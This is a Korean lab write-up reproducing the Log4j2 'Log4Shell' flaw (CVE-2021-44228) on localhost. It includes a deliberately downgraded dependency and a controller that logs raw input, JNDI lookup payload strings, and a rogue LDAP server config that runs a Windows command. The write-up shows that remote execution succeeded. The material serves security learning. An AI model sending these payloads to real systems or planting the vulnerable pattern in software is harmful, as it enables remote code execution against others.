 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

* 취약점
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>11</java.version>
    <!-- Spring Boot 2.6.2는 2.17.0 디펜던시를 가지지만, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   

   

## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)

